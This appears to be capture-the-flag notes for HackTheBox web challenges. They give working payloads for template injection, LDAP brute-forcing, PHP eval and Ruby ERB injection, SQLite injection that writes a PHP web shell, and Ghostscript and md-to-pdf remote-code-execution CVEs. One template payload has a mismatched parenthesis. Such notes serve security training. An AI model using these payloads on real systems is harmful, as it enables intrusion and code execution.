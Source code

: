# WEB

## Templeted `Flask/Jinja2 Template Injection`
Flask/Jinja2 Template Injection
Payload:
```
http://<ip_address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```

## Phonebook `LDAP Injection`
Bypass login using *:* credentials.

Get reese's password -> flag:
Python script: 
```python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

proxies = {
    'http': 'http://127.0.0.1:8080'
}

flag = "HTB{"
for i in range(50):
    print("[i] Looking for number " + str(i))
    # print(alphabet)
    for char in alphabet:
        pwd = flag + char + '*'
        r = requests.post("http://<ip_address>/login", data={"username":"reese", "password":pwd}, proxies=proxies)
        if ("'Content-Length': '2586'" in str(r.headers)):
            flag += char
            print("[+] Flag: " + flag)
            break
```



## LoveTok `Code Injection [PHP eval()]`
```
# Get flag file name
http://<ip_address>/?format=${system($_GET[1])}&1=ls

# Get flag
http://<ip_address>/?format=${system($_GET[1])}&1=cat+flageXXXX
```


## Toxic `Insecure Deserialization` & `Log Poisoning Attack`
### `TODO`



## petpetrcb `CVE-2018-16509`
Ghostscript === 9.23 RCE
Payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```


Payload for this challenge:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

## Under Construction `JWT Algorithm Confusion` & `SQL Injection`
JWT Algorithm Confusion -> https://portswigger.net/web-security/jwt/algorithm-confusion

Next SQL Injection (SQLite3)
```sql
# Get Tables
user_in_database' union select name,NULL from sqlite_master where type='table' and name not like 'sqlite_%';-- 

# Get Columns
user_in_database' union select sql,NULL from sqlite_master where tbl_name = 'users' and type = 'table';--

# Get Flag
user_in_database' and 1=2 UNION SELECT *,NULL from flag_storage;--
```


## Blinker Fluids `CVE-2021-23639`
md-to-pdf < 5.0.0 RCE
Payload:
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
```
Payload for this challenge:
```
# In request:
"---js\n((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))\n---RCE;"

# In PDF editor on site:
---js
  ((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))
---RCE;

```

## Intergalactic POST `SQL Injection with RCE [SQLite3]`
If given arguments arent't properly validated:
```php
$this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
```
We can add `X-Forwarded-For` header and it's value will be passed to `$ip_address`
```sql
X-Forwarded-For: a','a');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```
Next arguments can be given through URL:
```url
http://104.248.173.13:32130/lol10.php?cmd=cat%20../flag_d055c3346bc2c02.txt
```

## Neofy `Regex Bypass with new line` && `Code Injection`
Regex that should protect against Code Injection:
```
/^[0-9a-z ]+$/
```
In Ruby (but not only) the ^ and $ match at the start and end of each line. So if any (!) one line is matching, we have a successful match. What we would rather want in this case is matching the beginning and end of the string, which is possible with \A and \z.
Thats why this payload works:
```
# In request POST /
neon=abc%0a<%25%3d+File.open('/app/flag.txt').read+%25>
%0a -> encoded newline
```
